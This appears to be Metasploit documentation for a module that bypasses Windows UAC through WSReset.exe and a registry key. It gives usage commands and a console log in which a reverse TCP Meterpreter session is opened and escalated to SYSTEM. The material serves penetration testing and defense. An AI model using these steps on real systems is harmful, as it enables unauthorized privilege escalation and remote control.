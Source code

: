 ## Intro

This module exploits a flaw in the WSReset.exe Windows Store Reset Tool. The tool
is run with the "autoElevate" property set to true, and it will automatically
launch a file from a low-privilege registry location with elevated privileges.
To bypass, simply place the binary on disk, write its location in the
correct registry key, and run WSReset.exe.  The binary will be run with elevated
privileges. 

## Usage

1. Create a session on the target system under the context of a local administrative user.
1. Begin interacting with the module: `use exploit/windows/local/bypassuac_windows_store_reg`.
1. Set the `PAYLOAD` and configure it correctly.
1. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
1. Make sure that the `SESSION` value is set to the existing session identifier.
1. Invoke the module: `run`.

## Scenarios

### Windows 10.0.17134.885 x64

```
msf5 exploit(windows/local/bypassuac_windows_store_reg) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] win_dir = C:\Windows
[*] tmp_dir = C:\Users\msfuser\AppData\Local\Temp
[*] exploit_dir = C:\Windows\System32\
[*] exploit_file = C:\Windows\System32\WSReset.exe
[*] payload_pathname = C:\Users\msfuser\AppData\Local\Temp\LSbJpvsW.exe
[*] Making Payload
[*] reg_command = C:\Windows\System32\cmd.exe /c start C:\Users\msfuser\AppData\Local\Temp\LSbJpvsW.exe
[*] Making Registry Changes
[*] Registry Changes Complete
[*] Uploading Payload to C:\Users\msfuser\AppData\Local\Temp\LSbJpvsW.exe
[*] Payload Upload Complete
[*] Launching C:\Windows\System32\WSReset.exe
[!] This exploit requires manual cleanup of 'C:\Users\msfuser\AppData\Local\Temp\LSbJpvsW.exe!
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 4 opened (192.168.135.168:4444 -> 192.168.132.125:49680) at 2019-09-04 17:01:46 -0500
[*] Removing Registry Changes
[*] Registry Changes Removed

meterpreter > sysinfo
Computer        : DESKTOP-3DKRD1E
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-3DKRD1E\msfuser
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
